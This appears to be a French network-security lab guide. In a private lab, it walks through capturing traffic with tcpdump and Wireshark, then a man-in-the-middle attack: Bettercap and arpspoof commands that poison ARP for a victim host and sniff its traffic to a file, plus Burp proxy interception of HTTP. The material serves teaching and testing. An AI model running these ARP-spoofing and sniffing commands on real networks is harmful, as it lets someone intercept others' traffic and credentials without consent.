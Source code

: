 ### 👀 Observation du trafic (tcpdump / Wireshark)

- 📸 tcpdump  
![tcpdump](./senarioTCP.PNG)  
[Voir en grand](./senarioTCP.PNG)

**Wireshark**
![Wireshark](senariowireshark.3.PNG)

---

## 🕵️ Attaque MITM (Bettercap ou arpspoof)  

### Option A - Bettercap *(recommandé)*  

Sur Parrot :  
bettercap -iface enp0s3

Dans la console bettercap :  
net.recon on
net.show

set arp.spoof.targets 192.168.100.10
arp.spoof on

set net.sniff.output /root/capture.pcap
net.sniff on

arpspoof -i enp0s3 -t 192.168.100.10 192.168.100.1
arpspoof -i enp0s3 -t 192.168.100.1 192.168.100.10

ℹ️ Ici `192.168.100.1` représente la “passerelle” vue par la victime.  
👉 Dans notre montage, où Parrot **est déjà la passerelle**, il est plus simple et plus sûr d’utiliser **Bettercap**.  

📸 Exemple d’exécution :

![Capture Bettercap](senariobettercap.PNG)

---

### 🧪 Option : Proxy/Burp (HTTP)

> **Note :** Intercepter du trafic HTTPS exige la gestion de certificats (CA Burp).
> Pour ce TP, on garde simple → uniquement HTTP.

---

#### ⚙️ Configuration Burp (attaquant - Parrot)
- **Proxy > Proxy Listeners** : écouter sur `192.168.100.20:8080`

#### ⚙️ Configuration Firefox (victime - Debian)
- **Paramètres réseau** → Configuration manuelle du proxy
- HTTP Proxy : `192.168.100.20`
- Port : `8080`
- (Option) Cochez *Utiliser également ce proxy pour HTTPS* seulement si vous avez installé la CA.
Sinon, gardez-le uniquement pour les tests HTTP.
